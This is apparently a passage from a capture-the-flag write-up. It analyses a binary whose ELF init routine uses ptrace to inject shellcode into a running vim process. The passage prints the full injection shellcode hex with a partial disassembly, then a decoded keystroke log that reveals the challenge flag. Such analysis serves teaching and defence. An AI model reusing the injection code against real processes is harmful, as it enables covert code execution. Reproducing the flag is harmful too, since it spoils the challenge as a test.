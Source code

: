 We will return to this shellcode later. What participants should also note is that these ptrace calls are initiated as part of the `__DT_INIT_ARRAY` which is an initialization routine executed by the linker when the ELF program is started:
```
                     //
                     // .init_array 
                     // SHT_INIT_ARRAY  [0x3d30 - 0x3d3f]
                     // ram:00103d30-ram:00103d3f
                     //
                     __DT_INIT_ARRAY                                 XREF[4]:     00100168(*), 001002f0(*), 
                                                                                  00103d90(*), 
                                                                                  _elfSectionHeaders::00000550(*)  
00103d30 00 13 10        dq         thunk_FUN_00101280
         00 00 00 
         00 00
00103d38 2a 18 10        dq         FUN_0010182a
         00 00 00 
         00 00
```

Furthermore, the init function searches for a running `vim` instance as seen in the first function call:
```
uVar2 = openproc(0x61);
memset(local_428,0,0x410);
do {
  lVar3 = readproc(uVar2,local_428);
  if (lVar3 == 0) {
    closeproc(uVar2);
    local_428[0] = 0;
    break;
  }
  iVar1 = strcmp(acStack_120,"vim");
} while (iVar1 != 0);
```

After virtual memory maps are parsed for a map with flags `r-xp` in function `FUN_00101309`, function `FUN_00101586` will attach to the running `vim` instance with `PTRACE_ATTACH`, write the shellcode into the available `r-xp` map and reroute execution to shellcode.

## Disassembling shellcode

Content we have retrieved previously can be disassembled with `ndisasm`:
```
echo -ne '4831ff4831c05748bf6375626573303131574889e74831f64831d2b0020f054989c04831c0b0094831ff4831f640b61a48c1e60840b66048c1e608b2034d31d241b2024d31c941b14049c1e1080f05504c89c74831c0b0030f054831f6564889e74831c066b83f010f054889c358584831ff4831f64831d2b21a48c1e208b26048c1e2084839d67d11408a3c304080f74140883c3048ffc6ebea4889c64889df4831c048ffc00f054831d24831f65248bf6c662f66642f2f335748bf2f70726f632f7365574889e74831c0b03b0f054831ff4831c0b03c0f05' | xxd -r -p | ndisasm -b64 -
00000000  4831FF            xor rdi,rdi
00000003  4831C0            xor rax,rax
00000006  57                push rdi
00000007  48BF637562657330  mov rdi,0x3131307365627563
         -3131
00000011  57                push rdi
00000012  4889E7            mov rdi,rsp
00000015  4831F6            xor rsi,rsi
00000018  4831D2            xor rdx,rdx
0000001B  B002              mov al,0x2
0000001D  0F05              syscall
0000001F  4989C0            mov r8,rax
00000022  4831C0            xor rax,rax
00000025  B009              mov al,0x9
```

[r]: ENTER
[p]: I
[r]: I
[p]: B
[r]: B
[p]: C
[r]: C
[p]: T
[r]: T
[p]: F
[r]: F
[p]: L_SHIFT
[p]: [
[r]: [
[r]: L_SHIFT
[p]: 1
[r]: 1
[p]: N
[r]: N
[p]: -
[r]: -
[p]: T
[r]: T
[p]: H
[r]: H
[p]: 3
[r]: 3
[p]: L_SHIFT
[p]: -
[r]: -
[r]: L_SHIFT
[p]: 3
[r]: 3
[p]: N
[r]: N
[p]: D
[r]: D
[p]: -
[r]: -
[p]: 1
[r]: 1
[p]: T
[r]: T
[p]: Z
[r]: Z
[p]: L_SHIFT
[p]: Z
[r]: Z
[r]: L_SHIFT
[p]: L_SHIFT
[p]: -
[r]: -
[r]: L_SHIFT
[p]: J
[r]: J
[p]: U
[r]: U
[p]: S
[r]: S
[p]: T
[r]: T
[p]: -
[r]: -
[p]: 4
[r]: 4
[p]: -
[r]: -
[p]: F
[r]: F
[p]: 3
[r]: 3
[p]: W
[r]: W
[p]: L_SHIFT
[p]: -
[r]: -
[r]: L_SHIFT
[p]: C
[r]: C
[p]: U
[r]: U
[p]: B
[r]: B
[p]: 3
[r]: 3
[p]: L_SHIFT
[p]: L_SHIFT
[p]: L_SHIFT
[p]: Z
[r]: Z
[r]: L_SHIFT
[p]: L_SHIFT
[p]: ]
[r]: ]
[r]: L_SHIFT
[p]: P
[r]: P
[p]: S
[p]: SPACE
[r]: S
[r]: SPACE
[p]: U
[p]: A
[r]: U
[p]: X
[r]: A
[r]: X
[p]: ENTER
[r]: ENTER
[p]: S
[p]: U
[r]: S
[r]: U
[p]: D
[r]: D
[p]: O
[r]: O
[p]: SPACE
[r]: SPACE
[p]: K
[r]: K
[p]: I
[r]: I
[p]: L
[r]: L
[p]: L
[r]: L
[p]: SPACE
[r]: SPACE
[p]: -
[r]: -
[p]: 2
[r]: 2
[p]: SPACE
[r]: SPACE
[p]: 5
[r]: 5
[p]: 2
[r]: 2
[p]: 6
[r]: 6
[p]: 1
[r]: 1
[p]: 1
[r]: 1
[p]: ENTER
[r]: ENTER
[p]: V
[r]: V
[p]: M
[r]: M
[p]: ENTER
[r]: ENTER
[p]: ENTER
[r]: ENTER
[p]: P
[r]: P
[p]: S
[p]: SPACE
[r]: S
[r]: SPACE
[p]: U
[p]: A
[r]: U
[r]: A
[p]: X
[r]: X
[p]: ENTER
[r]: ENTER
[p]: S
[p]: U
[r]: S
[r]: U
[p]: D
[r]: D
[p]: O
[p]: SPACE
[r]: O
[r]: SPACE
[p]: K
[r]: K
[p]: I
[r]: I
[p]: L
[r]: L
[p]: L
[r]: L
[p]: SPACE
[r]: SPACE
[p]: -
[r]: -
[p]: 2
[r]: 2
[p]: SPACE
[r]: SPACE
[p]: 5
[r]: 5
[p]: 2
[r]: 2
[p]: 6
[r]: 6
[p]: 0
[r]: 0
[p]: 8
[r]: 8
[p]: ENTER